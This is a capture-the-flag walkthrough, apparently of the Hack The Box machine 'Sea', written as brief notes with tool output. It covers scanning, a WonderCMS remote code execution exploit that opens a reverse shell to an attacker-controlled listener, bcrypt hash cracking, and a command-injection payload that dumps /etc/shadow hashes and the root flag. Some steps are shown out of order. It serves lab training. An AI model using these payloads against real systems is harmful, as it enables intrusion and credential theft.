





**Nmap**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 07:55 EDT
Nmap scan report for 10.129.27.223
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.68 seconds

```



```shell
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ  -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sea.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

# directory-list-2.3-medium.txt [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 51ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 50ms]
0                       [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 45ms]
themes                  [Status: 301, Size: 230, Words: 14, Lines: 8, Duration: 43ms]
data                    [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 42ms]
plugins                 [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 43ms]

```

All endpoints are forbidden




```shell
wget http://sea.htb/themes/bike/README.md                                       
--2024-08-13 05:23:28--  http://sea.htb/themes/bike/README.md
Resolving sea.htb (sea.htb)... 10.129.111.77
Connecting to sea.htb (sea.htb)|10.129.111.77|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318 [text/markdown]
Saving to: ‘README.md’

README.md                        100%[==========================================================>]     318  --.-KB/s    in 0s      

2024-08-13 05:23:28 (52.1 MB/s) - ‘README.md’ saved [318/318]

```

Get README.md and LICENSE and analyze content, it says is used WonderCMS


Looking online found: [CVE-2023-41425 (WonderCMS Remote Code Execution) - PoC](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)


	Clone the repo and try. After talking with others on discord

```shell
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.126&lport=4444
```


```shell
$ cd /var/www/sea
$ cd sea
$ ls
contact.php
data
index.php
messages
plugins
themes
$ cd data
$ ls
cache.json
database.js
files
$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSA****************",
        "lastLogins": {
            "2024\/08\/13 18:10:26": "127.0.0.1",
            "2024\/08\/13 18:09:26": "127.0.0.1",
            "2024\/08\/13 18:09:25": "127.0.0.1",
            "2024\/08\/13 18:08:25": "127.0.0.1",
            "2024\/08\/13 18:07:25": "127.0.0.1"
        },


```


Fix retrieved hash's format and run hashcat:

```shell
$2y$10$iOrk****************
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ hashcat hash.txt -m 3200 /usr/share/wordlists/rockyou.txt
$2y$10$iOrk21****************:****************
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Wed Aug 14 06:21:53 2024 (46 secs)
Time.Estimated...: Wed Aug 14 06:22:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       67 H/s (6.72ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3056/14344384 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> dangerous
Hardware.Mon.#1..: Util: 88%

Started: Wed Aug 14 06:21:13 2024
Stopped: Wed Aug 14 06:22:41 2024

```



Try this password in ssh with one of the users listed in /home:

```shell
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.166.185] 44840
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:25:42 up 41 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
amay
geo

```



Manipulate the request on http://localhost:8888 with BurpSuite, after forwarding this port trough ssh from 8080 of the victim 

```shell
log_file=/etc/shadow;ls&analyze_log=/etc/shadow

root:$6$llVzHhr7xHrvx1wJ$gH0PLbyPaIOqLrpjpzGZbM2bZ/iHaOfv/bj1YRrktVeZ8.1KQ0Jr1Rv/TL/3Qdh84Fwec1UhX2v0LVAGsuzq.0:19775:0:99999:7::: daemon:*:19430:0:99999:7::: bin:*:19430:0:99999:7::: sys:*:19430:0:99999:7::: sync:*:19430:0:99999:7::: games:*:19430:0:99999:7::: man:*:19430:0:99999:7::: lp:*:19430:0:99999:7::: mail:*:19430:0:99999:7::: news:*:19430:0:99999:7::: uucp:*:19430:0:99999:7::: proxy:*:19430:0:99999:7::: www-data:*:19430:0:99999:7::: backup:*:19430:0:99999:7::: list:*:19430:0:99999:7::: irc:*:19430:0:99999:7::: gnats:*:19430:0:99999:7::: nobody:*:19430:0:99999:7::: systemd-network:*:19430:0:99999:7::: systemd-resolve:*:19430:0:99999:7::: systemd-timesync:*:19430:0:99999:7::: messagebus:*:19430:0:99999:7::: syslog:*:19430:0:99999:7::: _apt:*:19430:0:99999:7::: tss:*:19430:0:99999:7::: uuidd:*:19430:0:99999:7::: tcpdump:*:19430:0:99999:7::: landscape:*:19430:0:99999:7::: pollinate:*:19430:0:99999:7::: fwupd-refresh:*:19430:0:99999:7::: usbmux:*:19774:0:99999:7::: sshd:*:19774:0:99999:7::: systemd-coredump:!!:19774:::::: amay:$6$S1AGe5ex2k4D5MKa$gTclSeJwvND3FINpZaK0zfUqk6T9IkhlxCn17fNWLx56u.zP/f/4e5YrJRPsM3TRuuKXQDfYL44RyPzduexsm.:19775:0:99999:7::: lxd:!:19774:::::: geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7::: _laurel:!:19936:::::: 
```


We can get the root flag directly

```shell
log_file=/root/root.txt;ls&analyze_log=/root/root.txt
```

```shell
user:459138e5dbf2****************
root:c58fac105938****************
```